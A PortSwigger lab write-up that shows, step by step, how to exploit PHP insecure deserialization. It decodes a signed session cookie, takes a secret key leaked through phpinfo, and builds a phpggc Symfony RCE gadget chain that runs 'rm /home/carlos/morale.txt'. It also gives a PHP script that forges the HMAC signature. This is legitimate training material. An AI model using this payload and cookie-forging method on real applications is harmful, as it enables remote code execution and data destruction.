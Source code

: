 # Exploiting PHP deserialization with a pre-built gadget chain

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain), you'll learn: Exploiting PHP deserialization with a pre-built gadget chain! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's [insecure deserialization](https://portswigger.net/web-security/deserialization) using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111194743.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111194756.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111194813.png)

When we're successfully logged in, it'll set a new session cookie.

**URL decoded:**
```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJseGF1N3pybHQ2cHU4bGFnYWhnNmRvcm1uajF6aGRncyI7fQ==","sig_hmac_sha1":"5ccbfbdfb92f58616d627e16c27d3bde8f720362"}
```

As you can see, the `token` key's value last 2 characters are `=`, which is a padding for base64 encoding.

**Let's decode that:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 19:49:51
╰─○ echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJseGF1N3pybHQ2cHU4bGFnYWhnNmRvcm1uajF6aGRncyI7fQ==' | base64 -d              
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"lxau7zrlt6pu8lagahg6dormnj1zhdgs";}
```

In here, we can see that is a **PHP serialized object.**

**View source page:**
```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

In the "My Account" page, there is a HTML comment, which is an `<a>` element that points to `/cgi-bin/phpinfo.php`.

**Let's go there:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111195303.png)

This page is a the web application PHP's configuration.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111201646.png)

- Found `SECRET_KEY` environment variable: `2u7ak75w9a051k3ehgji62gykvo0k3gl`

**Now, we can try to modify the PHP serialized object:**
```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"lxau7zrlt6pu8lagahg6dormnj1zhdgs";}
```

**Then base64, URL encode it, and send the payload:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:18:32
╰─○ echo -n 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"lxau7zrlt6pu8lagahg6dormnj1zhdgs";}' | base64
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6Imx4YXU3enJsdDZwdThsYWdhaGc2ZG9ybW5qMXpoZGdzIjt9
```

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6Imx4YXU3enJsdDZwdThsYWdhaGc2ZG9ybW5qMXpoZGdzIjt9","sig_hmac_sha1":"5ccbfbdfb92f58616d627e16c27d3bde8f720362"}
```

```json
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6Imx4YXU3enJsdDZwdThsYWdhaGc2ZG9ybW5qMXpoZGdzIjt9%22%2C%22sig_hmac_sha1%22%3A%225ccbfbdfb92f58616d627e16c27d3bde8f720362%22%7D
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111202007.png)

In here, we saw an error message, which tells us the `sig_hmac_sha1` doesn't match.

However, it also leaked the PHP framework: Symfony version 4.3.6

Armed with above information, we can start to build our gadet chains.

**Luckly, there is a tool called `phpggc` (PHP Generic Gadget Chains), which generates a PHP serialized object gadget chains.**

**We can use `phpggc -l Zend` to list all available gadget chains:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:13:39
╰─○ phpggc -l Symfony                                                  

Gadget Chains
-------------

NAME            VERSION                        TYPE                   VECTOR         I    
Symfony/FW1     2.5.2                          File write             DebugImport    *    
Symfony/FW2     3.4                            File write             __destruct          
Symfony/RCE1    3.3                            RCE (Command)          __destruct     *    
Symfony/RCE2    2.3.42 < 2.6                   RCE (PHP code)         __destruct     *    
Symfony/RCE3    2.6 <= 2.8.32                  RCE (PHP code)         __destruct     *    
Symfony/RCE4    3.4.0-34, 4.2.0-11, 4.3.0-7    RCE (Function call)    __destruct     *
```

**Let's use the `Symfony/RCE1` payload!**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:20:59
╰─○ phpggc -i Symfony/RCE1
Name           : Symfony/RCE1
Version        : 3.3
Type           : RCE (Command)
Vector         : __destruct
Informations   : 
Executes given command through proc_open()

./phpggc Symfony/RCE1 <command>

╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:21:26
╰─○ phpggc -b Symfony/RCE1 'rm /home/carlos/morale.txt' 
Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

**Combined payload:**
```json
{"token":"Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=","sig_hmac_sha1":"5ccbfbdfb92f58616d627e16c27d3bde8f720362"}
```

However, this payload won't work, because the HMAC SHA1 key doesn't match to the sever one.

**To solve that, we can sign our own HMAC key via a PHP's `hash_hmac` function, as we have the `SECRET_KEY` environment variable:**
```php
<?php
    $gadgetChains = 'Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=';
    $secretKey = '2u7ak75w9a051k3ehgji62gykvo0k3gl';

    $signedHMACSHA1Key = hash_hmac('sha1', $gadgetChains, $secretKey);
    $cookie = "{\"token\":\"$gadgetChains\",\"sig_hmac_sha1\":\"$signedHMACSHA1Key\"}";

    $finalPayload = urlencode($cookie);

    echo "[+] Final payload: \n" . $finalPayload;
?>
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:29:30
╰─○ php sign_key.php
[+] Final payload: 
%7B%22token%22%3A%22Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D%22%2C%22sig_hmac_sha1%22%3A%223f9ccfcdbecca0452e54f14747cece4fc8fa0a7b%22%7D
```

**Then copy that URL encoded payload to our session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111203048.png)

After that, refresh the page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111203059.png)

Nice!

# What we've learned:

1. Exploiting PHP deserialization with a pre-built gadget chain